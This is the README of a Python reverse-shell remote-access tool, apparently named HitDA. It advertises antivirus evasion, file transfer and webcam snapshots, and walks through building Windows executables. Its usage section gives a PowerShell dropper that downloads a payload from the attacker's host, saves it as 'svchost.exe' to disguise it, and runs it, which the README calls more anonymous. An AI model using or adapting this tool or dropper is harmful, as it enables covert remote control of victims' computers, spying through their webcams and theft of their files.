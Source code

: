 # HitDA
HitDA is a Multi-Function utilization script based on Reverse Shell write in Python3 for Kali Linux.
It's not a meterpreter, so it is easy to bypass the **AV-Software**.You can use it like a 
reverse shell, but it also provides some powerful functions which are similar to Meterpreter.
Like **File Download/Upload**, **Webcam snapshot**, I will continue to add more function
 later.
 
##Setup
````
git clone https://github.com/HalukShan/HitD.git
````
 You need to install some dependencies on your Kali Linux, Use
 ````
cd HitDA; pip3 install -r ./requirements.txt
````
And install `pyinstaller`
```
pip3 install pyinstaller
```
Next install `docker-pyinstaller`, this tool help you generate a 
Windows `.exe` file more easily, but you should install docker first.
Now I give the complete steps below:

Add Docker PGP Authkey
````
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
````
Config Docker APT
```
echo 'deb [arch = amd64] https://download.docker.com/linux/debian buster stable'| sudo tee /etc/apt/sources.list.d/docker.list
```
Update apt and install
```
sudo apt-get update; sudo apt-get install docker-ce
```
Enable docker
```
sudo systemctl enable docker
```
After complete these steps, you can download `docker-pyinstaller`:
```
cd HitDA; git clone https://github.com/cdrx/docker-pyinstaller.git
```
Now you've done all the steps

##Usage
```
cd HitDA
```
Run the main script
```
python3 HitDA.py
```
Now you can see the menu
```
[*] Starting HitD...
[+] Init Success


    __    __   __  .___________. _______       ___      
   |  |  |  | |  | |           ||       \     /   \     
   |  |__|  | |  | `---|  |----`|  .--.  |   /  ^  \    
   |   __   | |  |     |  |     |  |  |  |  /  /_\  \   
   |  |  |  | |  |     |  |     |  '--'  | /  _____  \  
   |__|  |__| |__|     |__|     |_______/ /__/     \__\ 
                                                        

author: HalukShan
 =========================================================
||                     Menu Option                       ||
||                                                       ||
|| [0] Generate Script                                   ||
|| [1] Start Listening                                   ||
|| [9] Exit                                              ||
 =========================================================
```
When you choose 0, you can choose the script with webcam snap function
or not, the webcam function will increase the file size to about
**50MB**, otherwise, it's about **5MB**. You can also use the **powershell** 
script to automate download the script and execute, it will be more
anonymous and customizable. Like:
````
mkdir C:\tmp
cd C:\tmp
powershell $client = new-object System.Net.WebClient;$client.DownloadFile('http://youripordomain/script.exe','svchost.exe');
svchost.exe
````
Save as .bat file, and use battoexe to generate a small exe file.

###Listening
Choose option 1 to start the listening mode


